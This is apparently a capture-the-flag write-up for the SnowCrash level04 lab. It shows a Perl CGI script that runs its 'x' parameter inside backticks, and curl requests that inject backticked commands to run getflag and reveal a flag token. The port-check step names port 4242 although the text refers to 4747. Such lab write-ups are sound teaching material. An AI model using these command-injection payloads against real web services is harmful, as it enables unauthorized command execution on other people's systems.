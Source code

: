 # Level 04

- Once logged in, and check the file in home dir., the `level04.pl` file is located

```
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level04@localhost's password:

level04@SnowCrash:~$
level04@SnowCrash:~$ ls
level04.pl
```

### What is `.pl` file?
- a `Perl` script file

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Check port `4747`
Something is on port `4747`, so let's check out

```
level04@SnowCrash:~$ nc -zv localhost 4242
Connection to localhost 4242 port [tcp/*] succeeded!
```
- nc: netcat
	- -z for just scan for listening daemons, without sending any data
	- -v for give more verbose output

### Solution

Try passing command to check

```
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```

and run getflag
```
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


